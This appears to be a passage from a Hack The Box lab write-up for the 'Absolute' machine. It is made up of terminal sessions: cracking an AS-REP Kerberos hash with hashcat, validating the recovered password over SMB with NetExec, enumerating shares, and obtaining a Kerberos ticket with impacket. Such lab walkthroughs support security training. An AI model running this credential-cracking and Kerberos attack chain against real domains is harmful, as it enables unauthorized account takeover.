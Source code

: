 



```bash
❯ hashcat -a 0 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

...[snip]...

$krb5asrep$23$d.klay@ABSOLUTE.HTB:9f213736a22fc3887d77727ca9bf30a0$2de99f7f0b98034eb2d2d2b371e7c02595b340ed35e16cef2697bcd317bd2eb48e56eedce376f65dbad1d084d6c3dcbfaf071cb31aa70d35524656fb9c98588856593e6f071a0fbb6847251a24a33f993ca282b186b676f73ba735b1f54bd03fc109ece63641392e29075540c899bf8b4fb773946bb85df432f4473dffd13db0b38f576765e2320b26f7ef4577c2afa467033118075a753e51e1f8e736e58fc4f2066734014584b957631bec8751a4a4c71073009eb9b2c1744c93d644438e5d73c11cacbae2aca12fcd8330a18f0777b1b3cba8957c3092ccf4a2e220d90fcfe966693bec63facd8b3fbbd5:Darkmoonsky248girl
```





```bash
❯ nxc smb 10.10.11.181 -u 'd.klay' -p 'Darkmoonsky248girl'
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [-] absolute.htb\d.klay:Darkmoonsky248girl STATUS_ACCOUNT_RESTRICTION 
❯ nxc smb 10.10.11.181 -u 'd.klay' -p 'Darkmoonsky248girl' -k
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [+] absolute.htb\d.klay:Darkmoonsky248girl 
```





```bash
❯ nxc smb 10.10.11.181 -u 'd.klay' -p 'Darkmoonsky248girl' -k --shares
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [+] absolute.htb\d.klay:Darkmoonsky248girl 
SMB         10.10.11.181    445    DC               [*] Enumerated shares
SMB         10.10.11.181    445    DC               Share           Permissions     Remark
SMB         10.10.11.181    445    DC               -----           -----------     ------
SMB         10.10.11.181    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.181    445    DC               C$                              Default share
SMB         10.10.11.181    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.181    445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.11.181    445    DC               Shared                          
SMB         10.10.11.181    445    DC               SYSVOL          READ            Logon server share 
```





```bash
❯ impacket-getTGT absolute.htb/d.klay:Darkmoonsky248girl
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in d.klay.ccache
❯ export KRB5CCNAME=$(pwd)/d.klay.ccache
❯ klist -e
Ticket cache: FILE:/home/kali/Desktop/HackTheBox/Windows/Absolute/Absolute/content/d.klay.ccache
Default principal: d.klay@ABSOLUTE.HTB

Valid starting     Expires            Service principal
22/01/25 02:29:08  22/01/25 06:29:08  krbtgt/ABSOLUTE.HTB@ABSOLUTE.HTB
```